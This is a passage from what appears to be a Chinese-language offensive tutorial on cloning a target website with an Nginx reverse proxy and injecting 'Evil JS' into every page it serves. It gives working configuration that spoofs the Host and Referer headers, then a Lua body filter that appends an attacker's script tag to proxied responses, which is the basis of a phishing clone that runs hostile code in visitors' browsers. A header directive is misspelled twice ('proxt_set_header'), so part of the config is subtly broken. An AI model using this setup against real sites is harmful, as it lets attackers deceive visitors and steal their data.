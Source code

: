 `location`用于做URI匹配，当访问到`/some/path/`这个路径时，Nginx就代表客户端去访问`http://www.example.com/link/`，整个过程对客户端是完全透明的。

根据这个实例，可以直接写下第一部分，反向代理的配置了：

```
location / {
    proxy_pass http://www.example.com/link/;
}
```

访问根目录就等同于访问`http://www.example.com/link/`。

这里可能会产生一个问题，如果目标Web服务器对Host进行了判断，那么反向代理可能不会成功，因此需要将完美克隆的目标Host进行设置。

```
worker_processes  1;

error_log  logs/error.log error;    # 日志级别

events {
    worker_connections  1024;
}

http {
    server {
        listen    80;
        server_name example-1.com;
        location / {
            proxy_pass http://www.example.com/link/;
            proxt_set_header Host www.example.com;
            proxt_set_header Referer http://www.example.com/link/;
        }
    }
}
```

至此，就能完美克隆目标网站了。

### 注入模块化的Evil JS

使用`body_filter_by_lua_block`可以对网站内容进行修改，利用好这个功能，就能将JS文件引入到页面中。

```
header_filter_by_lua_block { ngx.header.content_length = nil}
                body_filter_by_lua_block{
                        local chunk, eof = ngx.arg[1], ngx.arg[2]
                        local buffered = ngx.ctx.buffered
                        if not buffered then
                           buffered = {}
                           ngx.ctx.buffered = buffered
                        end
                        if chunk ~= "" then
                           buffered[#buffered + 1] = chunk
                           ngx.arg[1] = nil
                        end
                        if eof then
                           local whole = table.concat(buffered)
                           ngx.ctx.buffered = nil
                           whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
                           ngx.arg[1] = whole
                        end
                }

```
